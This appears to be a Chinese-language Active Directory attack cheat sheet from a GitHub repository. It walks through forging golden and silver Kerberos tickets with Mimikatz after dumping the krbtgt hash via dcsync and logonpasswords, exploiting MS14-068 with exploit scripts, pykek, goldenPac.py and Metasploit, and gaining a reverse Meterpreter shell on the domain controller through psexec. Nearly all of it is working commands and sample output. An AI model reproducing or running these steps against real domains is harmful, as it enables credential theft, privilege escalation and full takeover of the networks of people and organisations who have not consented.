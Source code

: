   ### 名词
	KDC(Key Distribution Center)： 密钥分发中心，里面包含两个服务：AS和TGS
	AS(Authentication Server)： 身份认证服务
	TGS(Ticket Granting Server)： 票据授予服务
	TGT(Ticket Granting Ticket): 由身份认证服务授予的票据，用于身份认证，存储在内存，默认有效期为10小时
  ### 黄金票据+Mimikatz
	Golden Ticket伪造TGT(Ticket Granting Ticket)，可以获取任何Kerberos服务权限，
	域控中提取krbtgt的hash
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域内机器是不能访问dc上的文件
![image](img/390.png)

	清空票据
![image](img/391.png)

	域控中获取krbtgt用户的信息
	>privilege::debug
	>mimikatz log "lsadump::dcsync /domain:zone.com /user:krbtgt"
	获取信息：/domain、/sid、/aes256
![image](img/392.png)

	在sub2k8中生成golden ticket
	>mimikatz "kerberos::golden /krbtgt:{ntlmhash} /admin:域管理 /domain:域名 /sid:sid /ticket:gold.kirbi"
![image](img/393.png)

	导入
	Mimikatz#kerberos::ptt 123.kirbi
![image](img/394.png)
  ### 白银票据+Mimikatz
![image](img/395.png)

	Silver Ticket是伪造的TGS，只能访问指定服务权限
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域控中导出
	>privilege::debug
	>sekurlsa::logonpasswords
![image](img/396.png)

	Sub2k8伪造票据
	>mimikatz "kerberos::golden /domain:zone.com /sid:{SID} /target:dc.zone.com /service:cifs /rc4:{NTLM} /user:y /ptt"
![image](img/397.png)
  ### MS14-068
  #### 第一种
	https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
	https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
	域控：dc.zone.com/10.1.1.100
	域内机器：sub2k8.zone.com/10.1.1.98
	域内普通用户：y，
	Sub2k8中清除票据
	Mimikatz#kerberos::purge
	>whoami /user查看SID 
	创建ccache票据文件
	> MS14-068.exe -u y@zone.com -p password -s S-1-5-21-2346829310-1781191092-2540298887-1112 -d dc.zone.com
	注入票据
	Mimikatz# Kerberos::ptc c:\xx\xx\xxx.ccache
	psexec无密码登陆
	>PsExec.exe \\dc.xx.com\ cmd.exe
  #### 第二种
	需要知道用户 SID
	远程方法
  	rpcclient >lookupnames john.smith
	john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
	本地方法
	>wmic useraccount get name,sid
	Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
	Guest          S-1-5-21-3415849876-833628785-5197346142-501   
	Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
	Guest          S-1-5-21-297520375-2634728305-5197346142-501   
	krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
	lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
	powerview
	>Convert-NameToSid high-sec-corp.localkrbtgt
	S-1-5-21-2941561648-383941485-1389968811-502
	metasploit使用或生成票证pykek
```bash
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```
	>git clone https://github.com/SecWiki/windows-kernel-exploits
	>python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
	>python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
	>python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
	>python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066-1105
	使用mimikatz加载票证
	>mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
	如果时钟有偏差，请使用来自nmap的脚本clock-skew.nse
	Linux> $ nmap -sV -sC 10.10.10.10
	clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s
	Linux> sudo date -s "14 APR 2015 18:25:16" 
	Windows> net time /domain /set
  ### Mimikatz+MSF
	>whoami /user 查看SID
	msf >use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	msf >set domain 域名
	msf >set password 密码
	msf >set rhost 域控机器
	msf >set user 用户
	msf >set user_sid sid
	得到.bin文件
	>apt-get install krb5-user
	上传mimikatz和bin文件
	Mimikatz# Kerberos::clist “xxxx.bin” /export
	生成kirbi文件
	Meterpreter >load kiwi
	Meterpreter >download c:/wmpub/xxxxxx.kirbi /tmp/
	注入票据
	Meterpreter >kerberos_ticket_use /tmp/xxxxxx.kirbi
	>use exploit/windows/local/current_user_psexec
	>set TECHNIQUE PSH
	>set RHOST dc.xx.com
	>set payload windows/meterpreter/reverse_tcp
	>set LHOST 192.168.1.1
	>set session 1
	>exploit
  ### goldenPac.py
	kali下
	>apt-get install krb5-user
	>goldenPac.py –dc-ip 10.1.1.100 –target-ip 10.1.1.100 zone.com/y:password@dc.zone.com
